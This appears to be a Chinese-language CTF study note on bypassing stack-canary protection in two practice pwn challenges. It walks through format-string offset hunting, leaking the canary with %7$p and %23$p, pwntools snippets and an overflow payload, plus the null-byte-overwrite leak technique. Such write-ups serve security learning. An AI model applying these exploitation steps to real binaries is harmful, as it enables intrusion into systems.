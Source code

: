 # Week3

- ### Pwn

  由一道题引出学习的内容

  这个题是buu上看的，bjdctf_2020_babyrop2

  拿到附件就先随便跑了一下

#### ![deabb5ee8b90d8836e86556108c95fe8](C:\Users\Lenovo\Documents\Tencent Files\1253016986\nt_qq\nt_data\Pic\2023-11\Ori\1)

```
*** stack smashing detected ***: terminated
```

- 没咋见过，百度一下是canary保护

  #### 知识点  ：通常[栈溢出](https://so.csdn.net/so/search?q=栈溢出&spm=1001.2101.3001.7020)的利用方式是通过溢出存在于栈上的局部变量，从而让多出来的数据覆盖 ebp、eip 等，从而达到劫持控制流的目的。而栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。

  #### 总结一下就是为了程序能够被溢出的地方不让溢出

  所以学习内容如下

  

## Canary绕过

先由上面的题目说起，最后总结

### *格式化字符串：题目1

#### 思路：

- 利用格式化字符串泄露出canary的值
- 利用溢出漏洞，将canary的值填入绕过canary检测，利用ret2libc的方法获取shell

#### 操作：

##### 1.泄露canary的值

首先找一下输入点参数在栈上的相对位置（找偏移量）

先拖入ida，观察汇编代码，我们注意到了main函数中存在着canary值的判断

```
.text:00000000004008C3                 nop
.text:00000000004008C4                 mov     rax, [rbp+var_8]
.text:00000000004008C8                 xor     rax, fs:28h
```

先是把`rbp+var_8`移到了rax寄存器中，然后再对rax的值进行判断，从这里可以看出canary的值被存放在`rbp+var_8`的位置

查看var_8的栈后得知canary被存放在`rbp-0x8`的位置



先在上方汇编代码的`nop`处下断点调试，用格式化字符串漏洞泄露一下canary的位置

限制：只能输入6个字符，所以不能如下构造

```
aa%x %x %x.......
```

换了一种方法，输入`%n$p`,`n`是偏移量，配上`%$p`就能定位到偏移量处，输出该位置上的内容，`%p`是以16进制输出，输入如下

[^]: aa(0x6161)是ascii下的十六进制表示

用`aa`标注 来看我们跳到的地址是不是我们想要的，偏移量从1开始往后测试

```
aa%1$p aa%2$p...
```

直到`aa%6$p`的时候打印出的地址后面对上了6161

```
I'll give u some gift to help u!
aa%6$p
aa0x702436256161
```

我们接着点开format栈空间 看canary和format之间偏移

```
0000000000000010 format          db 8 dup(?)
0000000000000008 var_8           dq ?
```

0x10-0x8/8=1`64位8字节一组`

所以canary的位置：即format局部变量的地址的上一个位置，则`aa%7$p`即泄露canary的地址

##### 2.接下来把得到的canary的值填到相应的位置

我们可以用vuln里面的read函数造成栈溢出

```c
unsigned __int64 vuln()
{
  char buf[24]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("Pull up your sword and tell me u story!");
  read(0, buf, 0x64uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

这里就要考虑到buf到canary的偏移，buf是rbp-0x20,canary是rbp-8，所以要填充0x20-0x8个数据，再加上canary的值

泄露canary的部分exp如下（填完canary就是常规的ret2libc了）

```python
py=b'%7$p'
p.sendlineafter('help u!\n',py)
p.recvuntil("0x")
canary = int(p.recv(16),16)
print(hex(canary))
```

查了一些canary设定的知识：

Canary一般最低位是\x00，也就是结尾处，本意是用来截断字符串（可以利用），64位程序的canary的大小是8个字节，32位程序的canary的大小是4个字节



再来一道题目熟悉一下

### *格式化字符串：题目2

XCTF-攻防世界CTF平台-PWN类——Mary_Morton

#### 思路：

###### 漏洞1（栈溢出漏洞）

利用read造成栈溢出

```c
unsigned __int64 sub_400960()
{
  char buf[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(buf, 0, 0x80uLL);
  read(0, buf, 0x100uLL);
  printf("-> %s\n", buf);
  return __readfsqword(0x28u) ^ v2;
}
```

###### 漏洞2（格式化字符串）

printf这里输出buf的内容

```c
unsigned __int64 sub_4008EB()
{
  char buf[136]; // [rsp+0h] [rbp-90h] BYREF
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(buf, 0, 0x80uLL);
  read(0, buf, 0x7FuLL);
  printf(buf);
  return __readfsqword(0x28u) ^ v2;
}
```

总结：利用格式化字符串和缓冲区溢出两个漏洞，先通过格式化字符串漏洞泄露canary的值，然后再进行栈溢出的覆盖

#### 操作：

##### 1.算偏移量用来泄露canary的值

和上一题一样，偏移一下输入的字符存储在格式化字符串的位置

偏移后还是%6$p对上了,第六个参数，然后去利用栈溢出漏洞，因为canary的值存在var_8里面，buf距离var_8有0x90-0x8=0x88，所以buf距离canary有0x88/8=17,而输入字符串的位置又在第6个参数，所以17+6=23（输入字符串距离canary 23个地址），在脚本中用%23$p可以直接泄露canary的地址，如下

```python
p.sendline('%23$p')
p.recvuntil('0x')
canary=int(p.recv(16),16)
print (canary)
```

##### 2.然后就是正常的栈溢出

```python
payload = 'a' * 0x88 + p64(canary) +'a'*8+p64(flag_addr)
```

先把buf栈区覆盖，然后填canary，最后再覆盖ebp





而以上两道题都是利用格式化字符串漏洞，还有一种常用的方式

### *覆盖截断字符：

#### 原理

Canary设计其低字节为`\x00`，本意是阻止被read、write等函数直接将Canary读出来。而通过栈溢出将低位的`\x00`覆写，就可以读出Canary的值

这里以buu上[第十五章][15.5.2 canary bypass]为例，buf长度为100字节，所以我们sendline100长度的数据，会触发canary，sendline会带一个\x0a,覆盖canary高位的\x00,这样就可以直接将canary的内容拿出来，再减去0xa，就是canary的值



### 总结：

两种常用方式来绕过canary保护：

1.覆盖截断字符

   条件：

- 存在`read`/`printf`等读出字符串的函数
- 可以两次栈溢出
- - **第一次是覆盖00字节，泄露canary**
  - **第二次是利用canary进行攻击**

2.格式化字符串





